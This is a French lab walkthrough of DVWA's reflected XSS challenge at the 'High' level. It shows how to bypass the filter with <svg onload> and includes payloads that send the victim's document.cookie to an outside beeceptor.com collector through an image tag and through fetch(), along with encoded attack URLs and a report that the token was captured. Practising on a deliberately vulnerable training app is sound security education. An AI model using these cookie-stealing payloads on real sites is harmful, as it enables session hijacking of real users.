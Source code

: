 # Niveau "High"

Aucun changement dans la manière que fonctionne le challenge pour ce niveau "High" :

![](../../../../.gitbook/assets/716e7582a5a588ae1a060267a461ee1c.png)

Je test l'habituelle `alert()` box :

![](../../../../.gitbook/assets/be95dcea4fbc2fc579eace9e837711ef.png)

Il semble qu'un filtrage soit effectué ici, mais les contournements simples ne fonctionnent pas (mélange de minuscule/majuscules sur les balises, doublement des balises etc). Dans ce cas, il faut tenter d'autres balises mais pouvant tout de même conduire à l'exécution de script.

Par exemple, ici j'utilise la base `<svg>`  :

![](../../../../.gitbook/assets/d34944f150f5bff49c901488cd30269d.png)

J'adapte la payload utilisée plus tôt :

```markup
<svg onload="document.write('<img src=\'https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie + '\'>')">
```

![](../../../../.gitbook/assets/a87c9290388f12caeaac8b12ec8b8bac.png)

```
http://192.168.56.203:8080/vulnerabilities/xss_r/?name=%3Csvg+onload%3D%22document.write%28%27%3Cimg+src%3D%5C%27https%3A%2F%2Fdvwaxssrefl.free.beeceptor.com%3Fcookie%3D%27+%2B+document.cookie+%2B+%27%5C%27%2F%3E%27%29%22%3E#
```

Malheureusement cela ne fonctionne pas, un autre filtre doit être en place. De plus, la payload a un problème, elle écrit l'image dans une nouvelle page, ce qui n'est pas du tout transparent pour la victime (pour visualiser ce comportement, il est possible de tester la payload en niveau "Low").

Afin de contourner le filtre j'utilise la méthode la méthode `fetch()` au lieu de `document.write()` :

```markup
<svg onload="fetch('https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie);">
```

![](../../../../.gitbook/assets/43aac60b26406396f594b81acd86385f.png)

Soit L'URL suivante à fournir à la victime :

```
http://192.168.56.203:8080/vulnerabilities/xss_r/?name=%3Csvg+onload%3D%22fetch%28%27https%3A%2F%2Fdvwaxssrefl.free.beeceptor.com%3Fcookie%3D%27+%2B+document.cookie%29%3B%22%3E#
```

Je récupère finalement son jeton :

![](../../../../.gitbook/assets/625d7342e0fcd6fe773feb4a7a0467cb.png)
